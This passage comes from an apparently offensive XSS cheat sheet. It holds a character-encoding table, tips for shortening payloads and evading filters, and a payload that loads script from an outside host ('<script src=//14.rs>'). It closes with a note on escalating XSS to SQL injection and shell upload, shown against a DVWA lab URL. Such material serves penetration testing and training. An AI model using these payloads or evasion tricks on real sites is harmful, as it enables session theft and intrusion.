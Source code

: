 | `&lt;`     | <    | `&#60;`  | less-than              | u+003C | \003c     | \74        | %3C |
| `&equals;` | =    | `&#61;`  | equals                 | u+003D | \003d     | \75        | %3D |
| `&gt;`     | >    | `&#62;`  | greater-than sign      | u+003E | \003e     | \76        | %3E |
| `&quest;`  | ?    | `&#63;`  | question mark          | u+003F | \003f     | \77        | %3F |
| `&commat;` | @    | `&#64;`  | at sign; commercial at | u+0040 | \0040     | \100       | %40 |
| `&lsqb;`   | \[   | `&#91;`  | left square bracket    | u+005B | \005b     | \133       | %5B |
| `&bsol;`   | \\   | `&#92;`  | backslash              | u+005C | \005c     | \134       | %5C |
| `&rsqb;`   | ]    | `&#93;`  | right square bracket   | u+005D | \005d     | \135       | %5D |
| `&Hat;`    | ^    | `&#94;`  | circumflex accent      | u+005E | \005e     | \136       | %5E |
| `&lowbar;` | \_   | `&#95;`  | low line               | u+005F | \005f     | \137       | %5F |
| `&grave;`  | \`   | `&#96;`  | grave accent           | u+0060 | \0060     | \u0060     | %60 |
| `&lcub;`   | {    | `&#123;` | left curly bracket     | u+007b | \007b     | \173       | %7b |
| `&verbar;` | \|   | `&#124;` | vertical bar           | u+007c | \007c     | \174       | %7c |
| `&rcub;`   | }    | `&#125;` | right curly bracket    | u+007d | \007d     | \175       | %7d |

### Tips & Tricks

* `http(s)://` can be shortened to `//` or `/\\` or `\\`.
* `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
* alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
* You can use `//` to close a tag instead of `>`.
* I have found that `confirm` is the least detected pop-up function so stop using `alert`.
* Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
* The shortest HTML context XSS payload is `<script src=//14.rs>` (19 chars)

## Escalating the Attack

### XSS to SQL Injection (XSSQLi)

&#x20;XSS Injection with SQLi (XSSQLi) Well After our discussion on different types of injection and places you can find SQL injection Vulnerability, an attacker can successfully exploit an SQL injection vulnerability and get access to the database and if he is lucky enough to get access to the File System also by uploading shell

IN DVWA DEMO



```
http://192.168.2.5/dvwa/vulnerabilities/sqli/?id=1
```
